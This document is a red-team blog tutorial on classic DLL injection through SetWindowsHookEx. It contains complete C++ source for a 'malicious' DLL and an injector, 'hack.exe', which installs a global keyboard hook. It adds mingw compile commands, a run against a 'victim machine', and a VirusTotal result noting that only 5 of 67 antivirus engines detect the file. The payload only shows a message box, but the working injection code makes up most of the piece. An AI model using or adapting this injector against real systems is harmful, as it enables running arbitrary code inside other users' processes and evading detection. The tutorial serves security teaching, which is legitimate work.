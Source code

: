 ```yaml
---
title:  "Classic DLL injection via SetWindowsHookEx. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/25/2021-11-24_18-00.png"
categories: 
  - tutorial
tags:
  - dll injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![dll injection](/assets/images/25/2021-11-24_18-00.png){:class="img-responsive"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### Malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### Example. Simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](/assets/images/25/2021-11-25_15-35.png){:class="img-responsive"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](/assets/images/25/2021-11-25_15-36.png){:class="img-responsive"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](/assets/images/25/2021-11-25_15-40.png){:class="img-responsive"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](/assets/images/25/2021-11-25_15-44.png){:class="img-responsive"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](/assets/images/25/2021-11-25_15-46.png){:class="img-responsive"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](/assets/images/25/2021-11-25_15-48.png){:class="img-responsive"}    
 
compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![dll injection 8](/assets/images/25/2021-11-25_15-50.png){:class="img-responsive"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](/assets/images/25/2021-11-25_15-54.png){:class="img-responsive"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this article, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved 
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by 
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

![dll injection 10](/assets/images/25/2021-11-26_03-02.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**So, 5 of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*